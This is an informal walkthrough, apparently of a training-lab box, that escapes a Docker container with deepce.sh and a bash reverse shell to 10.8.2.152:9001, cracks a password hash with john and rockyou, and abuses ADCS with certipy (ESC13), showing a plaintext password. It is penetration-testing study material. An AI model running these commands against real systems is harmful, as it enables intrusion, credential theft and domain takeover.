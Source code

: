 we can learn here we are in the docker lets upload [deepce.sh](https://github.com/stealthcopter/deepce) and got shell as root.

    elastic-agent@srv:/tmp$ bash deepce.sh --exploit SOCK --command "/bin/bash -c 'bash -i >& /dev/tcp/10.8.2.152/9001 0>&1'"

![alt text](../assets/images/Screenshot_2024-07-19_00_50_55.png)

found here hash and crack it. it will take time too much

    ➜  journeys john hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>     (?) 

but i decided to this password is expired i need to unexpired it.

    SMB         10.10.216.69    445    DC               [-] vigilant.vl\Gabriel.Stewart:<redacted> STATUS_PASSWORD_EXPIRED 

u may wanna use it ([STATUS_PASSWORD_EXPIRED](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)) for unexpired password.

## ESC13

    ➜  journeys certipy req -ca vigilant-CA -template VigilantAdmins -target dc.vigilant.vl -username 'Gabriel.Stewart' -password 'osmanirem.361!irem' -dc-ip 10.10.248.117 -key-size 4096
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 6
    [*] Got certificate with UPN 'Gabriel.Stewart@vigilant.vl'
    [*] Certificate object SID is 'S-1-5-21-2615182196-3196294898-3079774137-1334'
    [*] Saved certificate and private key to 'gabriel.stewart.pfx'
